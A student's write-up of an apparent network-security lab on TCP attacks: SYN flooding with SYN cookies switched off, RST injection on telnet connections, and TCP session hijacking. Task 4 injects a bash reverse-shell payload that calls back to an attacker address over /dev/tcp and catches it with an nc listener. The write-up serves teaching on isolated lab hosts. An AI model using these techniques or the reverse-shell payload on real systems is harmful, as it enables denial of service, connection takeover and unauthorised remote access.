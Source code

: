 # TCP Attacks
## Task 1: SYN Flooding Attack
- SYN flood is a form of DoS attack in which attackers send many SYN requests to a victim's TCP port, but the attackers have no intention to finish the 3-way handshake procedure. Attackers either use spoofed IP address or do not continue the procedure
- Through this attack, attackers can flood the victim's queue that is used for half-opened connections, i.e., the connections that has finished SYN, SYN-ACK, but has not yet gotten a final ACK back
- the size of the queue has a system-wide setting, the OS sets this value based on the amount of the memory the system has, in Ubuntu OS:
    ```
    # sysctl net.ipv4.tcp_max_syn_backlog
    net.ipv4.tcp_max_syn_backlog = 512
    ```
- check the usage of the queue: `netstat -nat`, The state of half-connections is `SYN-RECV`, if the 3-way handshake is finished, the state will be `ESTABLISHED`
- **SYN Cookie Countermeasure**: By default, Ubuntu's SYN flooding countermeasure is turned on, called SYN cookie, it will kick in if the machine detects that it is under the SYN flooding attack
    - turn off: `sysctl -w net.ipv4.tcp_syncookies=0`
    - to be able to use `sysctl` to change the system variables, the container needs to be configured with `privileged: true` entry

### Task 1.1: Launching the Attack Using Python
- use `Scapy`, keep sending TCP packets (with flag 'S') to the victim server (`10.9.0.5`)
    - `tcp = TCP(dport=23, flags='S')`
    - source IP address and port can be randomly generated

- possible issues
    - *TCP cache*: if machine X has already made a TCP connection to the victim machine, then X seems to be "immune" to the SYN flooding attack, and can successfully connect to the victim, this is due to a kernel mitigation mechanism, TCP reserves `1/4` OF THE backlog queue for those proven destinations if SYN Cookies are disabled, if an IP is cached, it will use the reserved slots when connecting
        - check TCP cache `# ip tcp_metrics show`
        - clear TCP cache `# ip tcp_metrics flush`
    - *RST packets*: when doing this task using 2 VMs, instead of containers, from Wireshark, we can notice many RST packets, they are generated by the NAT server, any traffic going out of the VM will go through the NAT server provided by VirtualBox, for TCP, NAT creates address translation entries based on the SYN packet. In this attack, the SYN packets generated by attacker didn't go through the NAT, so no NAT entry was created, when the victim sends SYN+ACK packet back, this packet will go through the NAT, but because there is no prior NAT entry for this TCP connection, NAT does not know what to do, so it sends a TCP RST packet back to the victim, and the victim will remove the data from the queue
    - *TCP retransmission issue*: After sending SYN+ACK packet, the victim will wait for ACK packet, if it does not come on time, TCP will retransmit the SYN+ACK packet, how many times it will retry depends on the setting. After 5 retries, TCP will remove the corresponding item from the half-connection queue
        ```
        # sysctl net.ipv4.tcp_synack_retries
        net.ipv4.tcp_synack_retrie = 5
        ```

- set the size of the queue smaller, `# sysctl net.ipv4.tcp_max_syn_backlog=80` (the original queue size `512` is too large, the Python program is not fast enough to keep the queue always full, and the user can finally connect to the victim server after a period of time)
- run the attack program, on user-1 `10.9.0.6`, `telnet 10.9.0.5 23`, it will not be able to connect to the victim server
    ```
    # telnet 10.9.0.5 23
    Trying 10.9.0.5...
    telnet: Unable to connect to remote host: Connection timed out
    ```
### Task 1.2: Launch the Attack Using C
- C is faster than Python, write raw sockets using C, and keep spoofing TCP SYN packets (refer to the Packet Sniffing and Spoofing Lab)
- restore the queue size `# sysctl net.ipv4.tcp_max_syn_backlog=512`
- the rate of success is much higher than the Python program when using the original queue size `512`
### Task 1.3: Enable SYN Cookie Countermeasure
- on the victim server: `sysctl -w net.ipv4.tcp_syncookies=1`
- run `synflood` program, the user can successfully telnet to the server
- on the server: `netstat -nat`, there will be a lot of half-connections
- on the user: `telnet 10.9.0.5 23`, successfully connected immediately
- SYN cookie: when receiving the SYN packet, the server will calculate a syn cookie, send it back to the client in the SYN+ACK packet, when it receives an ACK packet, it will validate the syn cookie

## Task 2: TCP RST Attacks on telnet Connections
- the TCP RST attacke can terminate an established TCP connection between two victims
- the attacker needs to correctly construct the TCP RST packet, i.e., we need the correct sequence number
- *launch the attack automatically*
    - sniffing for a period of time (e.g., 10 seconds)
    - finally, use the ACK of the latest packet as the sequence number of the spoofed RST packet

- after the RST packet is sent, on the user container: `Connection closed by foreign host.`

## Task 3: TCP Session Hijacking
- the objective of the TCP Session Hijacking attack is to hijack an existing TCP connection between two victims by injecting malicious contens into this session, if the connection is a `telnet` session, attackers can inject malicious commands
- launching the attack manually: skipped, it is trivial to modify the program that launches the attack automatically to launch the attack manually
- *launching the attack automatically*: the key is to fill in the right SEQ and ACK
    - sniff TCP packet from server to client (`"tcp and src host 10.9.0.5 and src port 23"`)
    - then send a spoofed TCP packet containing the malicious command `touch malicious_file`
    - the SEQ of the packet: `rcvd_pkt[TCP].ack`
    - the ACK of the packet: `rcvd_pkt[TCP].seq+1`
    - after the user connects to the server, run the program on attacker machine
    - as long as the user send another packet, the session will be hijacked
    - on the server
        ```
        # cd ~
        # ls
        malicious_file
        ```
## Task 4: Creating Reverse Shell using TCP Session Hijacking
- the program is the same as in task `3`, except that we need to change the data field to a command that triggers a reverse shell to the attacker's machine
- use this payload `\r /bin/bash -i >& /dev/tcp/10.9.0.1/9875 0>&1 \r`
- listen to the port `9875` on the attacker's machine, after the user connects to the server, run the program on attacker machine, as long as the user send another packet, the session will be hijacked
    ```
    # nc -l 9875
    root@3afa2e9a2320:~# <---- get a reverse shell from the victim server
    ```
